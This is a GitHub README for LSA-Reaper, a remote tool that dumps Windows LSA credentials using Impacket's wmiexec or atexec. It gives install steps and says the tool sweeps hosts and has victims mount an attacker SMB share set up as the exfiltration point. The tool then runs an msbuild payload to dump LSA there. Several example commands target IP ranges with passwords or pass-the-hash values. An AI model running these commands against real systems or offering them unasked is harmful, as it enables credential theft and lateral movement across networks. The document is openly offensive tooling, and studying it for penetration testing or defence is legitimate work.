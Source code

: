# LSA-Reaper
<p align="center">
  <img width="400" height="400" src="/assets/lsareaper.png">
</p>

LSA-Reaper is a remote command line LSA dumping tool that uses [Impacket's](https://github.com/SecureAuthCorp/impacket) wmiexec or atexec.

## Installation
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo python3 -m pip install -r requirements.txt
cd ..
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install
```
or
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo sh setup.sh
```

## Methodology
LSA-Reaper will begin by ping sweeping all provided IPs or IP ranges for alive hosts. LSA-Reaper will then create a SMB share with a random username and password that will act as the exfiltration point. LSA-Reaper will then execute the net use command on the victim machine via wmiexec or atexec to make the victim machine mount the share as a network drive and then execute msbuild to execute the payload which will dump LSA and save it to the mounted SMB share.

## Usage
```
sudo python3 lsa-reaper.py
```
![](/assets/help.png)

## Examples
```
sudo python3 lsa-reaper.py domain/user:'Password'@ip

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.100

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.0/24

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.10-200

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@ipList.txt

sudo python3 lsa-reaper.py testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -hashes 'LMHASH:NTHASH' testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -ip local_ip testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -drive A testdomain/testuser@10.0.0.100
```

![](/assets/Reaper-Running.png)

![](/assets/example.png)
